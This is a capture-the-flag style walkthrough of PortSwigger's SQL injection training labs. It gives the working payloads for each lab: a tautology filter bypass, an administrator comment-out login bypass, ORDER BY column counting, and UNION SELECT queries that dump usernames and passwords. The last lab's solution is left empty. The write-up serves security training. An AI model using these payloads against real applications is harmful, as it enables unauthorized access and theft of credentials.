




# BurpSuite Labs - SQL injection

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### Enuntiation

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

### Solution

Filter by one of the categories and, in the URL, instead of that categorry, after the "=" add:

```
' OR '1'='1
```


## SQL injection vulnerability allowing login bypass

### Enuntiation

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the `administrator` user.

### Solution

In the login page, add to username:

```
administrator'--
```

In password it doesn't matter what you write.


## SQL injection UNION attack, determining the number of columns returned by the query

### Enuntiation

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.

### Solution

In the category filter, filter by 'Gift'. Then in the URL, substitute Gift by: 

```
' OR '1'='1' order by 1-- -
' OR '1'='1' order by 2-- -
' OR '1'='1' order by 3-- -
' OR '1'='1' order by 4-- -
```

When substituting by the last string, you will have an error. Bingo! Our last successful try was with 3 columns, so the table is holding 3 columns. Now we can launch our UNION attack:

```
' OR '1'='1' UNION SELECT all  null,null,null-- -
```




## SQL injection UNION attack, finding a column containing text

### Enuntiation

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

### Solution

Select category filter GIFT in the Home lab.

Substitute in the URL Gift by the following string to guess which column is being displayed: 

```
' UNION SELECT null,null,null-- -
```

The Lab environment is providing at the top of the screen a string of characters that you will need to get reflected in order to pass the lab. In my case it was the string 'FEvLOw'. I tried that string in different positions and I got success in the second position: 

```
'+UNION+SELECT+'FEvLOw',NULL,NULL--
'+UNION+SELECT+NULL,'FEvLOw',NULL--
```




## SQL injection UNION attack, retrieving data from other tables

### Enuntiation

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

### Solution

First, we test the number of columns and we obtain 2.

Later we run

```
' UNION SELECT ALL username,password FROM users-- -
```




## SQL injection UNION attack, retrieving multiple values in a single column

### Enuntiation

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

### Solution

Like in the previous lab, first we test how many columns there are:

```
' UNION SELECT ALL NULL,NULL-- -
```

After that we check that (in my case) the column that is reflected is the second one, and we use that to retrieve the users and passwords:

```
' UNION SELECT NULL,username FROM users-- -
```

And we get:

```
carlos
administrator
wiener
```

And then, passwords:

```
' UNION SELECT NULL,password FROM users-- -
```

And we get:



## SQL injection attack, querying the database type and version on Oracle

### Enuntiation

This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

### Solution

